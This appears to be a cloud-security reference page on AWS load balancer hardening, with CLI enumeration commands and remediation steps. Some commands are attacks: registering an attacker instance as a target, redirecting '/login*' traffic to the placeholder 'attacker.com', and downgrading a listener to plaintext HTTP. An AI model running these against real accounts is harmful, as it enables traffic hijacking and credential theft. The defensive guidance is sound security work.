

AWS ELB/ALB Security
NETWORKING
Elastic Load Balancing distributes traffic across targets. ALB (Layer 7) and NLB (Layer 4) are the entry points to your applications - misconfigurations expose internal services.

Elastic Load Balancing distributes traffic across targets. ALB (Layer 7) and NLB (Layer 4) are the entry points to your applications - misconfigurations expose internal services.
Layer 7 load balancer for HTTP/HTTPS. Supports path-based routing, host-based routing, WAF integration, and authentication via Cognito/OIDC.
Layer 4 load balancer for TCP/UDP/TLS. Ultra-low latency, static IPs, and PrivateLink support. Preserves source IP for targets.
Load balancers are the front door to applications. HTTP listeners, weak TLS policies, and internal ALBs accidentally exposed to internet create significant attack surface.
aws elbv2 describe-load-balancersaws elbv2 describe-listeners \\
--load-balancer-arn <arn>aws elbv2 describe-target-groupsaws elbv2 describe-target-health \\
--target-group-arn <arn>aws elbv2 register-targets \\
--target-group-arn <arn> \\
--targets Id=<attacker-instance-ip>aws elbv2 create-rule \\
--listener-arn <arn> \\
--conditions Field=path-pattern,Values='/login*' \\
--actions Type=redirect,RedirectConfig='{
Host=attacker.com,StatusCode=HTTP_302}'aws elbv2 modify-listener \\
--listener-arn <arn> \\
--protocol HTTP \\
--port 80aws elbv2 describe-ssl-policies \\
--names ELBSecurityPolicy-2016-08aws elbv2 describe-rules \\
--listener-arn <arn>aws elbv2 describe-load-balancer-attributes \\
--load-balancer-arn <arn>Listener Configuration:
Protocol: HTTP (port 80)
Default Action: Forward to target group
// No HTTPS, no redirection
// Traffic in plaintext over internet
// Credentials and data exposedAll traffic unencrypted - credentials, sessions, data exposed to interception
Listener Configuration:
Protocol: HTTPS (port 443)
SSL Policy: ELBSecurityPolicy-TLS13-1-2-2021-06
Certificate: ACM managed (auto-renew)
HTTP (80) -> Redirect to HTTPS (443)
// TLS 1.3, secure cipher suites onlyEnforced HTTPS with modern TLS policy and automatic redirect
Use TLS 1.2+ with modern cipher suites. Redirect all HTTP to HTTPS.
aws elbv2 modify-listener \\
--listener-arn <arn> \\
--ssl-policy ELBSecurityPolicy-TLS13-1-2-2021-06Protect ALB against common web attacks with AWS WAF managed rules.
aws wafv2 associate-web-acl \\
--web-acl-arn <waf-arn> \\
--resource-arn <alb-arn>Log all requests to S3 for analysis and incident response.
aws elbv2 modify-load-balancer-attributes \\
--attributes Key=access_logs.s3.enabled,Value=trueLimit ingress to known IPs. Never use 0.0.0.0/0 for internal ALBs.
aws ec2 authorize-security-group-ingress \\
--group-id <sg> --protocol tcp \\
--port 443 --cidr <office-cidr>Prevent accidental or malicious deletion of load balancers.
aws elbv2 modify-load-balancer-attributes \\
--attributes Key=deletion_protection.enabled,Value=trueIntegrate with Cognito or OIDC for built-in authentication.
aws elbv2 create-rule \\
--actions Type=authenticate-cognito,...